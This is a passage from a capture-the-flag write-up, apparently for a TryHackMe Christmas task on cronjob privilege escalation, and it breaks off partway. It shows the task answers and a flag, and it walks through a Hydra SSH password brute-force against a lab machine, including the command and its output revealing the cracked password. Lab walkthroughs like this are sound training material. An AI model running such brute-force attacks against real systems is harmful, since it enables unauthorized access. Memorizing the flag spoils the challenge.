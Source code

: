 ## Task 25  [Day 20] Cronjob Privilege Escalation

You think the evil Christmas monster is acting on Elf Sam's account!

Hack into her account and escalate your privileges on this Linux machine.

There is no supporting material - the only new concept in this challenge is Linux cronjobs. Join our [Discord](https://discord.gg/wvfe3XJ) if you're really struggling.

**Answer the questions below**

Q1: What port is SSH running on?

**Hint: Use nmap to enumerate services on ports 4000 and 5000.**

A: 4567

Q2: Crack sam's password and read flag1.txt

**Hint: Complete the challenge on day 17, to understand how to use Hydra.**

A: THM{dec4389bc09669650f3479334532aeab}

**Solution**

So Here we know the username `sam` but we don't know the password for that user so we use hydra to brute force that user password if the password is weak we can easily crack that password. But we have to note `ssh` service is not running on default port so we have to specify port number with `-s` flag. And the final command are following:-

```hydra
$ hydra -l sam -P /usr/share/wordlists/rockyou.txt 10.10.230.252 -t 4 ss  
h -s 4567
```

Its output is like this 

```hydra Output
└──╼ $hydra -l sam -P /usr/share/wordlists/rockyou.txt 10.10.230.252 -t 4 ss  
h -s 4567  
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use i  
n military or secret service organizations, or for illegal purposes (this is  
non-binding, these *** ignore laws and ethics anyway).  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-30 22  
:09:08  
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/  
p:14344399), ~3586100 tries per task  
[DATA] attacking ssh://10.10.230.252:4567/  
[4567][ssh] host: 10.10.230.252 login: sam password: chocolate  
1 of 1 target successfully completed, 1 valid password found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-30 22  
:10:01
```

Here we got `sam` user password `chocolate`.

Now connect to ssh using the following command
